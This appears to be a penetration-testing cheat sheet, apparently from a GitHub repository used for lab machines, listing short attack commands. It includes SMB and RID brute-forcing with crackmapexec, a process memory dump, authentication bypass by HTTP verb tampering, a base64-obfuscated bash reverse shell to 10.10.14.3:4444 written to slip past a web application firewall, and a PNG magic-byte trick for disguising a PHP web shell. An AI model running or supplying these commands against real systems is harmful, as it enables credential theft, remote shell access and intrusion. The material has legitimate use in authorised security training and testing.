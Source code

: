 # Miscellaneous

##### Cisco Type 7 Password Hash Crack
```
http://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html
```

##### Bruteforce SMB
```
cme smb IP -u users.txt -p passwords.txt
```

##### Bruteforce RID
```
cme smb IP -u USER -p PASSWORD --rid-brute
```

##### Dump memory process
```
prodcump.exe -ma PID file.dmp
```

##### Verb Tampering
```
Change HTTP Method to bypass Authentication or check works or not.
```

##### Bypass WAF replacing spaces with ${IFS}
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo=|base64${IFS}-d|bash
```

##### Uncompile compiled Python File
```
mv backup backup.pyc
uncompyle6 backup.pyc
```

##### Mime magic bytes
`````
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png (Check Networked)
`````


##### Check CMS
```
wappalyzer http://10.10.10.138/writeup/ | jq
```

##### Scanning magento
```
php magescan.phar scan:all http://IP
```

